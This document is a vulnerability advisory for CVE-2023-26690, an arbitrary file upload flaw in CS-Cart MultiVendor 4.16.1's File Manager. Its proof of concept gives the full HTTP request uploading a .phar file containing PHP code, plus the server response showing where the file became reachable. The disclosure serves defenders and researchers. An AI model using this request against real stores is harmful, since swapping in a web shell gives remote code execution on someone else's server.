





# CVE-2023-26690 - File Upload vulnerability in File Manager of CS-Cart MultiVendor 4.16.1
This vulnerability allows an attacker to upload arbitrary files to the server by exploiting the “File Manager/Editor” functionality provided by the website. The vulnerability was identified as a result of the lack of proper validation and security controls on the uploaded files. Testing revealed that it was possible to upload files with malicious payloads, such as “.html”, “.phar”, and “.svg”, which could be used to deliver further attacks such as Remote Code Execution or Cross Site Scripting as presented below as Proof of Concept.

## Testing Environment
We utilized the official .zip file obtained from the CS-Cart website to perform a default installation of “CS-Cart MultiVendor 4.16.1” with example data. The installation was conducted on a fully patched Ubuntu Server 22.04 running PHP 8.1.2 and Apache/2.4.52.

## Exploitation
A "vendor" type user besides an admin has access to "File Manager" feature. Just go to Settings -> Files option.





The File Editor had minimal restrictions on file uploads, only prohibiting certain file types such as .php and a few others. However, potentially harmful file types like .phar, .html, and .svg were permitted.

#### Request:
```
POST /vendor.php?dispatch=elf_connector.manage&start_path=&security_hash=eec209847ff6336e0ee148fa1ecd56bf HTTP/1.1
Host: 172.16.85.150
Content-Length: 630
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/109.0.5414.120 Safari/537.36
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryAoh8runc5BFy8e3L
Accept: */*
Origin: http://172.16.85.150
Referer: http://172.16.85.150/vendor.php?dispatch=file_editor.manage
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: sid_customer_179e8=b9c1cfb15ede624455e417acd3bcd435-C; klaro=%7B%22paypal%22%3Atrue%2C%22facebook%22%3Atrue%2C%22pinterest%22%3Atrue%2C%22twitter%22%3Atrue%2C%22yandex%22%3Atrue%2C%22google_maps%22%3Atrue%7D; sid_admin_179e8=805b663fa14cb065af79dea778d78f24-A; sid_vendor_179e8=1e7e0c2cf02445ef05a097ceac9c963d-A
Connection: close

------WebKitFormBoundaryAoh8runc5BFy8e3L
Content-Disposition: form-data; name="reqid"

1860bf828c32fc
------WebKitFormBoundaryAoh8runc5BFy8e3L
Content-Disposition: form-data; name="cmd"

upload
------WebKitFormBoundaryAoh8runc5BFy8e3L
Content-Disposition: form-data; name="target"

l2_cGFnZXM
------WebKitFormBoundaryAoh8runc5BFy8e3L
Content-Disposition: form-data; name="upload[]"; filename="test.phar"
Content-Type: application/octet-stream

<?php phpinfo(); ?>

------WebKitFormBoundaryAoh8runc5BFy8e3L
Content-Disposition: form-data; name="mtime[]"

1675238039
------WebKitFormBoundaryAoh8runc5BFy8e3L—
```

#### Response:
```
HTTP/1.1 200 OK
Date: Wed, 01 Feb 2023 07:54:18 GMT
Server: Apache/2.4.52 (Ubuntu)
X-Frame-Options: SAMEORIGIN
Set-Cookie: sid_vendor_179e8=1e7e0c2cf02445ef05a097ceac9c963d-A; expires=Wed, 15-Feb-2023 07:54:18 GMT; Max-Age=1209600; path=/; HttpOnly; SameSite=lax
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Content-Security-Policy: frame-ancestors 'self';
Set-Cookie: sid_vendor_179e8=1e7e0c2cf02445ef05a097ceac9c963d-A; path=/; HttpOnly; SameSite=lax
Set-Cookie: sid_vendor_179e8=1e7e0c2cf02445ef05a097ceac9c963d-A; expires=Wed, 15-Feb-2023 07:54:18 GMT; Max-Age=1209600; path=/; HttpOnly; SameSite=lax
Set-Cookie: sid_vendor_179e8=1e7e0c2cf02445ef05a097ceac9c963d-A; expires=Wed, 15-Feb-2023 07:54:18 GMT; Max-Age=1209600; path=/; HttpOnly; SameSite=lax
Vary: Accept-Encoding
Content-Length: 429
Connection: close
Content-Type: text/html; charset=utf-8

{"added":[{"isowner":false,"ts":1675238058,"mime":"application\/octet-stream","read":1,"write":1,"size":"20","hash":"l2_cGFnZXMvdGVzdC5waGFy","name":"test.phar","phash":"l2_cGFnZXM","url":"http:\/\/172.16.85.150\/images\/companies\/1\/pages\/test.phar"}],"removed":[],"changed":[{"isowner":false,"ts":1675238058,"mime":"directory","read":1,"write":1,"size":0,"hash":"l2_cGFnZXM","name":"pages","phash":"l2_Lw","volumeid":"l2_"}]}
```







